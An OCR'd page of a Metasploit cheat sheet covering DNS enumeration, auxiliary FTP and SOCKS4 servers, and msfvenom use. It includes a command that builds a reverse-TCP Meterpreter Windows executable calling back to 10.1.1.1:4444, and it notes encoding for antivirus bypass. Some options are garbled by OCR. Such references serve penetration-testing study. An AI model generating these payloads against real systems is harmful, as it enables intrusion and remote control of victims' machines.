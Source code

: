 ###### DNS Enumeration:

```
msf > use auxiliary/gather/dns_enum
msf > set DOMAIN target.tgt
msf > run

```

###### FTP Server:

```
msf > use auxiliary/server/ftp
msf > set FTPROOT /tmp/ftproot
msf > run

```

###### Proxy Server:

```
msf > use auxiliary/server/socks4
msf > run

```

#### msfvenom :

The msfvenom tool can be used to generate Metasploit payloads (such as Meterpreter) as standalone files and optionally encode them. This tool replaces the former msfpayload and msfencode tools. Run with ''-l payloads' to get a list of payloads.

```
$ msfvenom --p [PayloadPath]
--f [FormatType]
LHOST=[LocalHost (if reverse conn.)]
LPORT=[LocalPort]

```

Example :

Reverse Meterpreter payload as an executable and redirected into a file:

```
$ msfvenom -p windows/meterpreter/
reverse_tcp -f exe LHOST=10.1.1.1
LPORT=4444 > met.exe

```

Format Options (specified with --f) --help-formats -- List available output formats

exe -- Executable pl -- Perl rb -- Ruby raw -- Raw shellcode c -- C code

Encoding Payloads with msfvenom

The msfvenom tool can be used to apply a level of encoding for anti-virus bypass. Run with '-l encoders' to get a list of encoders.
